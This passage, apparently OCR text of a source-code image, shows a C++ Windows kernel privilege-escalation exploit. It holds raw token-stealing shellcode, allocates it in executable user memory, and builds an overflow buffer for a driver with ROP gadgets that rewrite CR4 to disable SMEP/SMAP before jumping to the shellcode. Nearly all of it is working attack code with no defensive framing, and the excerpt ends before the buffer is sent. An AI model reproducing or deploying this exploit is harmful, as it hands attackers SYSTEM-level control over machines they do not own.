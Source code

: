 ``` c++
    // shellcode stolen from https://kristal-g.github.io/2021/05/08/SYSRET_Shellcode.html
    char payload[] =
        "\x65\x48\x8b\x04\x25\x88\x01\x00\x00\x48"
        "\x8b\x80\xb8\x00\x00\x00\x49\x89\xc0\x4d"
        "\x8b\x80\x48\x04\x00\x00\x49\x81\xe8\x48"
        "\x04\x00\x00\x4d\x8b\x88\x40\x04\x00\x00"
        "\x49\x83\xf9\x04\x75\xe5\x49\x8b\x88\xb8"
        "\x04\x00\x00\x80\xe1\xf0\x48\x89\x88\xb8"
        "\x04\x00\x00\x65\x48\x8b\x04\x25\x88\x01"
        "\x00\x00\x66\x8b\x88\xe4\x01\x00\x00\x66"
        "\xff\xc1\x66\x89\x88\xe4\x01\x00\x00\x48"
        "\x8b\x90\x90\x00\x00\x00\x48\x8b\x8a\x68"
        "\x01\x00\x00\x4c\x8b\x9a\x78\x01\x00\x00"
        "\x48\x8b\xa2\x80\x01\x00\x00\x48\x8b\xaa"
        "\x58\x01\x00\x00\x31\xc0\x0f\x01\xf8\x48"
        "\x0f\x07";


    // Allocating shellcode in user mode
    LPVOID shellcode = VirtualAlloc(
        NULL,
        sizeof(payload),
        0x3000,
        0x40
    );

    printf("[+] Shellcode allocated at: 0x%llx\n", shellcode);

    // copy shellcode payload to allocated memory in user mode
    memcpy(shellcode, payload, sizeof(payload));

    // Running getKBaseAddress() here to get base of kernel for ROP gadgets
    DWORD64 baseAddress = getKBaseAddress();
    
    // Defining buffer and buffer size to send to the driver
    char buf[280];
    size_t gadgetSize = 0x8;

    // Fill buffer with junk
    memset(buf, 0x41, 280);

    // ROP gadgets
    DWORD64 ROP1 = baseAddress + 0xa8cfb6;  // pop rcx ; ret: 
    DWORD64 ROP2 = 0xb50ef8 ^ 1UL << 20;    // CR4 value: flip 20th bit
    DWORD64 ROP3 = baseAddress + 0x39f047;  // mov cr4, rcx ; ret: 
    DWORD64 ROP4 = baseAddress + 0xa8cfb6;  // pop rcx ; ret: 
    DWORD64 ROP5 = 0xb50ef8;                // CR4 value (0xb506f8)
    DWORD64 ROP6 = baseAddress + 0x39f047;  // mov cr4, rcx ; ret: 
    DWORD64 ROP7 = baseAddress + 0x427f22;  // mov rsp, r11; ret; 
    
    printf("[+] Executing ROP chain to disable SMEP / SMAP. \n");
    printf("[+] POP RCX; ret; \n");

    memcpy(&buf[216], &ROP1, gadgetSize);
    memcpy(&buf[216 + 8], &ROP2, gadgetSize);

    printf("[+] MOV RCX; CR4; ret; \n");
    printf("[+] Bypassed SMEP / SMAP ! \n");
    memcpy(&buf[216 + 16], &ROP3, gadgetSize);

    printf("[+] Executing shellcode in userland !\n");
    memcpy(&buf[216 + 24], &shellcode, 0x8);

```
